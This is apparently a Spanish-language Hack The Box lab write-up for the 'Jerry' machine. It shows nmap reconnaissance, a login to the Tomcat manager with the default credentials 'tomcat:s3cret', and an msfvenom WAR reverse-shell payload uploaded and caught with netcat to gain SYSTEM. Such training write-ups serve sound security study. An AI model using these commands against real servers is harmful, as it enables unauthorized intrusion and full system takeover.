 ```yaml
---
title: Jerry
date: 2024-07-23 21:00:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Windows
tags:
  - Information Leakage
  - Abusing Tomcat
image:
  path: /assets/img/Jerry/Jerry.png
---
```


## Skills

- Information Leakage
- Abusing Tomcat [Intrusion & Privilege Escalation]
  
## Certificaciones

- eJPT

## Descripción

`Jerry` es una máquina `easy windows`, hay un tomcat por el `puerto 8080`, usando las `credenciales` por `defecto`accederemos a `/manger/html` donde subiremos un `.war` malicioso que usaremos para ganar `acceso` a la máquina víctima como usuario `Administrator`

---

## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `windows` suele ser `128`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.191.206
PING 10.129.191.206 (10.129.191.206) 56(84) bytes of data.
64 bytes from 10.129.191.206: icmp_seq=1 ttl=127 time=165 ms
64 bytes from 10.129.191.206: icmp_seq=2 ttl=127 time=131 ms
^C
--- 10.129.191.206 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 131.328/148.125/164.923/16.797 ms
```

### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -Pn -n -v 10.129.191.206 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:29 CEST
Initiating SYN Stealth Scan at 18:29
Scanning 10.129.191.206 [65535 ports]
Discovered open port 8080/tcp on 10.129.191.206
Completed SYN Stealth Scan at 18:29, 26.38s elapsed (65535 total ports)
Nmap scan report for 10.129.191.206
Host is up (0.061s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.44 seconds
           Raw packets sent: 131089 (5.768MB) | Rcvd: 21 (924B)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 8080 10.129.191.206 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:30 CEST
Nmap scan report for 10.129.191.206
Host is up (0.059s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds
```

### Web Enumeration

Cuando accedemos a `http://10.129.191.206:8080` vemos lo siguiente

![](/assets/img/Jerry/image_1.png)

Cuando intentamos acceder a `/manger/html` nos aparece este panel de `login`

![](/assets/img/Jerry/image_2.png)

Al usar un `listado` de `credenciales` por `defecto` que podemos encontrar en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials) ganamos acceso con las credenciales `tomcat:s3cret`

![](/assets/img/Jerry/image_3.png)

## Intrusión

Creamos con `msfvenom` un archivo `.war` para ganar acceso a la máquina víctima

```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.16 LPORT=443 -f war -o revshell.war  
```

`Subimos` el archivo `.war malicioso`

![](/assets/img/Jerry/image_4.png)

Nos ponemos en `escucha` mediante `netcat` en el `puerto 443`

```
# nc -nlvp 443
```

Hacemos `click` sobre el `archivo`, lo que nos llevará a `http://10.129.191.206:8080/revshell/` ejecutándose y enviándonos una `reverse shell` a nuestro equipo

![](/assets/img/Jerry/image_5.png)

Ganamos acceso al equipo como `nt authority\system`

```
# nc -nlvp 443      
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.191.206] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
